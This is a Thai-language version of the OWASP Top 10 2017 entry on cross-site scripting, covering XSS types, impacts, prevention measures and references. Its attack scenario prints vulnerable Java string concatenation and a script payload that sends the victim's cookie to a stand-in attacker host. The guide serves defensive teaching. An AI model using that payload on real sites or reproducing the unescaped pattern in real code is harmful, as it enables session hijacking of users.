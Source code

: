 # A7:2017 Cross-Site Scripting (XSS)

| ผู้โจมตี/ช่องทาง | จุดอ่อนด้านความปลอดภัย           | ผลกระทบ               |
| -- | -- | -- |
| การเข้าถึงช่องโหว่ : ความยากในการโจมตี 3 | แพร่กระจายง่าย 3 : ตรวจพบได้ง่าย 3 | ผลกระทบทางเทคนิค 2 : ผลกระทบทางธุรกิจ ? |
| โปรแกรมตรวจสอบช่องโหว่อัตโนมัติ สามารถใช้ตรวจจับและโจมตีช่องโหว่ประเภท XSS ได้ทั้งสามรูปแบบ (Reflected XSS, Stored XSS และ DOM XSS) พร้อมทั้งมี เฟรมเวิร์ค สำหรับโจมตีช่องโหว่นี้โดยเฉพาะแจกฟรีอีกด้วย เช่น BeEF (Browser Exploitation Framework) | ช่องโหว่ XSS แพร่กระจายได้มากเป็นอับดับสอง ใน OWASP Top 10 และพบว่าสองในสามส่วนแอพพลิเคชั่นที่ถูกทดสอบความปลอดภัยมีช่องโหว่ XSS โปรแกรมตรวจสอบช่องโหว่อัตโนมัติสามารถใช้หาช่องโหว่ XSS บางส่วนได้ โดยเฉพาะในเว็บเทคโนโลยีหลัก ๆ อย่าง PHP, J2EE / JSP และ ASP.NET | โดยทั่วไปผลกระทบของช่องโหว่ XSS มีความรุนแรงปานกลางสำหรับประเภท Reflected กับ DOM XSS และมีความรุนแรงสูงสำหรับประเภท Stored XSS ผลกระทบหลัก ๆ คือผู้โจมตีสามารถสั่งการทำงานฝั่ง client บน web browser ของเหยื่อได้ เช่นสามารถขโมย รหัสผ่านที่พิมพ์หรือจากใน DOM, ขโมย user session หรือโจมตีเหยื่อด้วยมัลแวร์ที่เขียนจาก JavaScript |

## แอพพลิเคชั่นนี้มีช่องโหว่หรือไม่?

ช่องโหว่ XSS มีสามประเภท ซึ่งทั้งหมดนี้โจมตีไปที่ web browser ของเหยื่อ:

* **Reflected XSS**: เกิดจากแอพพลิเคชั่นหรือ API รับค่ามาจากผู้ใช้งานโดยไม่ได้ตรวจสอบมาแสดงผลเป็นหน้าเว็บ HTML ถ้าถูกโจมตีสำเร็จ ผู้โจมตีสามารถสั่งการทำงานด้วยโค้ด HTML และ JavaScript ใด ๆ บน web browser ของเหยื่อได้ตามต้องการ โดยปกติแล้ว XSS ประเภทนี้ เหยื่อจะต้องเข้า link หน้าเว็บที่ผู้โจมตีสร้างหรือใส่ HTTP parameter บนเว็บที่มีช่องโหว่ XSS แล้วส่งมาให้เหยื่อเปิด อาจใช้ร่วมกับการโจมตีแบบอื่นเช่น watering hole, การแพร่เว็บโฆษณา และอื่น ๆ 
* **Stored XSS**: เกิดจากแอพพลิเคชั่นหรือ API เก็บค่าที่รับมาจากผู้ใช้งานโดยไม่ได้ตรวจสอบแล้วนำมาแสดงผลในภายหลัง ให้ผู้ใช้งานหรือผู้ดูแลระบบเห็น โดยปกติแล้ว Stored XSS จัดว่าเป็นช่องโหว่ที่มีความรุนแรงสูงหรือร้ายแรงมาก
* **DOM XSS**: เฟรมเวิร์ค JavaScript , แอพพลิเคชั่นที่มีหน้าเดียว และ API ต่าง ๆ ที่รับค่าที่ผู้โจมตีควบคุมได้ส่งมาแสดงโดยไม่ได้ตรวจสอบ มาแสดงตอน JavaScript กำลังทำงานอยู่และค่าที่ผู้โจมตีส่งมาทำงานเป็น JavaScript เกิดขึ้นใน DOM จะเรียกได้ว่าเป็น DOM XSS 

ปกติแล้วการโจมตีแบ XSS ส่งผลให้ผู้โจมตีสามารถขโมย user session เหยื่อได้, ยึดบัญชีของเหยื่อได้, ข้ามผ่านการยืนยันตัวแบบ MFA (Multi-Factor Authentication), แก้ไขค่าใน DOM node บน HTML หรือแก้ไขหน้าเว็บ (เช่นสร้างหน้าล็อคอินปลอม), โจมตีผู้ใช้งานเว็บผ่าน web browser เช่นหลอกให้ดาวโหลดไฟล์มัลแวร์, ดักรหัสผ่านบนคีย์บอร์ด และการโจมตี client-side อื่น ๆ อีกมากมาย

## ป้องกันอย่างไร

การป้องกันช่องโหว่ XSS จะต้องทำการแยก ข้อมูลที่รับมาจากผู้ใช้งานออกจากโค้ด HTML และ JavaScript ที่ทำงานปกติในหน้าเว็บ ซึ่งสามารถทำได้โดย:

* ใช้เฟรมเวิร์คที่ทำการป้องกัน XSS มาให้ตอนแสดงค่าที่รับมาจากผู้ใช้งานอยู่แล้ว เช่นใน Ruby on Rails หรือ React JS เวอร์ชั่นล่าสุด และจำเป็นต้องศึกษาข้อจำกัดของเฟรมเวิร์คในการป้องกัน XSS พร้อมทั้งวิธีการจัดการค่าที่รับเข้ามาในกรณีที่เฟรมเวิร์คไม่ได้ครอบคลุมในจุดนั้น ๆ
* แปลงค่าที่รับเข้ามาผ่าน HTTP request ให้เหมาะสมกับส่วนที่นำไปแสดงผลของหน้าเว็บ (เช่นในส่วนของ body, attribute, JavaScript, CSS, หรือ URL) จะช่วยแก้ปัญหาช่องโหว่ XSS ได้ เพิ่มเติมคือในเอกสาร [OWASP  Cheat Sheet 'XSS Prevention'](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) มีบอกรายละเอียดว่ารับค่าเข้ามาแสดงที่ส่วนไหน จะต้องใช้เทคนิคแปลงใดค่า
* เมื่อมีการแก้ไขข้อมูลบนหน้าเว็บผ่าน JavaScript จะต้องทำการแปลงค่าอย่างปลอดภัยซึ่งแตกต่างกันตามแต่ส่วนที่นำไปแสดง เพื่อป้องกัน DOM XSS ถ้าไม่สามารถแปลงได้ ให้ใช้เทคนิคอื่น ๆ ที่อธิบายไว้ในเอกสาร  [OWASP Cheat Sheet 'DOM based XSS Prevention'](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet).
* เปิดใช้งานฟีเจอร์ [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) ซึ่งเป็นการป้องกัน XSS โดยใช้หลักการของ defense-in-depth ถ้าใช้อย่างถูกวิธี จะป้องกัน XSS ได้ถ้าไม่มีช่องโหว่อื่น ๆ ที่ทำให้ผู้โจมตีสามารถใส่โค้ดอันตรายผ่านการนำไฟล์มาแสดงผลบนหน้าเว็บได้ (เช่น path traversal ที่เขียนทับไฟล์ JavaScript ที่นำมาแสดงหรือผู้โจมตีสามารถแก้ไขค่าใน JavaScript library บน CDN ที่เว็บเรียกโค้ดมาใช้ได้) 

## ตัวอย่างของกระบวนการโจมตี

**Scenario #1**: กรณีที่แอพพลิเคชั่นรับค่าจากผู้ใช้งานโดยไม่ได้ตรวจสอบหรือแปลงให้ปลอดภัยแล้วนำมาแสดงบนหน้าเว็บโดยตรงจากโค้ดภาษา Java ต่อไปนี้:

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`
ผู้โจมตีสามารถแก้ไขค่า HTTP parameter ชื่อ CC ผ่าน web browser ไปเป็นค่า:

`'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

แล้วส่ง link ไปให้เหยื่อเปิด การทำแบบนี้จะเป็นการใส่ JavaScript เพื่อโจมตีทำให้ session ID ที่อยู่ใน cookie ของ web browser ของคนที่เปิด link ถูกส่งไปยังเว็บของผู้โจมตี ส่งผลให้ ผู้โจมตีสามารถข้ามผ่านการล็อคอินเข้าไปเป็น user session ของเหยื่อได้

**ข้อสังเกต**: ถ้าเกิดในแอพพลิเคชั่นมีช่องโหว่ XSS ผู้โจมตีสามารถโจมตี XSS เพื่อข้ามผ่านการป้องกันของช่องโหว่ CSRF ใด ๆ และทำการโจมตีแบบ CSRF ต่อได้

## อ้างอิง

### จาก OWASP

* [OWASP Proactive Controls: Encode Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Proactive Controls: Validate Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Application Security Verification Standard: V5](https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project)
* [OWASP Testing Guide: Testing for Reflected XSS](https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
* [OWASP Testing Guide: Testing for Stored XSS](https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002))
* [OWASP Testing Guide: Testing for DOM XSS](https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001))
* [OWASP Cheat Sheet: XSS Prevention](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: DOM based XSS Prevention](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: XSS Filter Evasion](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* [OWASP Java Encoder Project](https://www.owasp.org/index.php/OWASP_Java_Encoder_Project)

### จากแหล่งอื่น

* [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Client-side template injection](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)

